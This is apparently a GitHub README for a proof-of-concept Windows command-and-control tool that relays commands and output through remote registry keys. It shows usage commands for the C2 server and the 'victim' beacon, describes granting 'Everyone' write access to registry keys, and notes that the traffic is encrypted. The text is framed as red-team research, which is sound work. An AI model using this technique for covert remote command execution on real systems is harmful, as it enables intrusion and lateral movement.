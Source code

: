 # Everything Can Be A Shell... An asynchronous shell at least...


### Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell based on Windows Registry keys. However, I do hope to add more in the future. *

### The Concept
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems and to keep the SOC on its toes. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

# Shell 1: C2 using Windows registry keys

## Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Demonstration:**
(https://www.youtube.com/watch?v=jOPCbK-WF1M): The C2 server is running on the left while the beacon is on the right

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the client needs to be permitted to make changes to a user-defined registry key.

**Limitations:** 
Since the traffic is based on RPC and SMB, it should only really be suitable for lateral movement on local networks. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on other keys. Consequences could potentially be dire :D

## How it works:  
1. When the server starts, the Remote Registry Service is enabled and started. 
2. A registry key HKLM\Software\RegistryC2\\<user-defined> is created along with the following values: cmd, output & sleep. The user-defined registry key is specific to a single beacon and could be compared to setting up a listener.
3. Read/Write permissions are then set for the user "Everyone" on this newly created registry key.
4. Permissions are likewise set on the key: HKLM\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (Note: On exiting/closing the server, these permissions are removed again.) 
5. When executing the beacon on the victim machine, it will connect to the C2 server using the WinReg protocol, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When the timer is up, the client checks-in and executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.
  
## Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
Example: RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
Example: RegC2Client.exe ws01 victim01
```

**Since this is a PoC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


## Screenshots:
**Starting the server:**  
Below, the server is started with the argument "victim01". The Remote Registry Service is attempted to be started, and the necessary permissions are put in place. The Registry key HKLM\Software\RegistryC2\victim01 is created with its necessary values: cmd, output & sleep. 
<img src="https://user-images.githubusercontent.com/35890107/186360543-a9bf7634-ea0d-4a0c-a9e5-4956701e0af3.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Permissions are set:**  
Special permissions are set for "Everone" on the Registry key "RegistryC2\victim01".  
<img src="https://user-images.githubusercontent.com/35890107/186360608-0ac3a430-912b-4a19-824d-3cfdedb5201b.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Beacon running on client:**  
The beacon is started on the victims machine. The beacon has updated its sleep-timer, found the command to execute and posted the result back to the C2-server.  
<img src="https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png" width=30% height=30%>
&nbsp;  
&nbsp;  
**Output is posted back to the server:**  
<img src="https://user-images.githubusercontent.com/35890107/186360638-91884a40-eaa8-4169-a148-95d14b26b894.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Another command is executed:**  
<img src="https://user-images.githubusercontent.com/35890107/186360670-a328752d-8221-4811-8ae1-0453c211ff03.png" width=60% height=60%>
&nbsp;  
&nbsp;  
**Exiting server:**  
The server is being closed and the Registry keys are no longer available.
<img src="https://user-images.githubusercontent.com/35890107/186360706-dce99907-6027-4bad-abc4-ade26429fe41.png" width=60% height=60%>


## How does it look in Wireshark? 
Well, it's not pretty. First, protocols are being negotiated using SMB and a connection is made for IPC$ followed by a request for "winreg".  
<img src="https://user-images.githubusercontent.com/35890107/186396507-e940f94e-feea-4e72-b0b7-8041fe696377.png" width=80% height=80%>
&nbsp;  
&nbsp;  
Scrolling down, the protocols are switched to DCERPC and WINREG. We also see a "QueryValue" request and response. 
<img src="https://user-images.githubusercontent.com/35890107/186397638-300e0e07-c927-4a96-833f-bcb7499cc8aa.png" width=80% height=80%>
&nbsp;  
&nbsp;  
Interestingly, on examining the Winreg protocols QueryValue, we see that all the daya is placed in an "Encrypted stub data" meaning that commands between the C2 and the beacon are encrypted by default, which is quite nice. 
<img src="https://user-images.githubusercontent.com/35890107/186397649-2033e1ca-a853-4ab0-a2b2-ef1c55e8c711.png" width=80% height=80%>


